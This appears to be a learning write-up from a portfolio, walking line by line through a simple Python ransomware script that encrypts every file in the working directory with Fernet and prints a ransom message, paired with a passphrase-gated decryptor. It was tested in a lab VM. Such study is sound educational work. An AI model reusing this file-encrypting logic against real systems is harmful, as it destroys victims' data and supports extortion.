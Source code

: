  <span style="color:red">This text is red</span>
Ransomware

Ransomware deployment using Python scripting

## Objective

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

### Skills Learned


- Python scripting
- Cryptography
 

### Tools Used

- Python
- Linux VM  
- Fernet

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

ref:

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py" : (next line)continue(next line) files.append(file) // This is seperating our script files that are in the same directory from the file list we created earlier in the script.

print(files) // Will display the "files" list in the terminal.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: // sets script to write to "thefile".

thefile.write(contents_encrypted) // writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed

DECRYPT

![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

ref:

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key, this file is appended from the file list that becomes encrypted in our MALWARE.py script, 
if our encryption key got encrypted, it would be a messy situation.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and our message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

We then get a message thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.




 




with = resource management as = used along with to allocater where to input resources / for = loop

NO DROPPER

*Ref 1: Network Diagram*
